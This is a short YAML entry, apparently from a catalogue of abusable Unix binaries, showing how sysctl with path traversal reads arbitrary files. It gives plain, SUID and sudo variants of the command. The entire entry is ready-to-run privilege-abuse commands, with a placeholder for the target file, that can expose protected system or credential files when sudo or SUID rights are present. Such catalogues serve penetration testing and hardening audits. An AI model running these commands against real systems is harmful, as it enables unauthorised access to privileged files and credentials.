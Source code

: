 ```yaml
---
functions:
  file-read:
    - description: It reads data from arbitrary files when combined with a path-traversal. The -p argument can also be used in place of -n.
    - code: |
        LFILE=file_to_read
        sysctl -n "/../../../../../$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./sysctl -n "/../../../../../$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo sysctl -n "/../../../../../$LFILE"
---
```

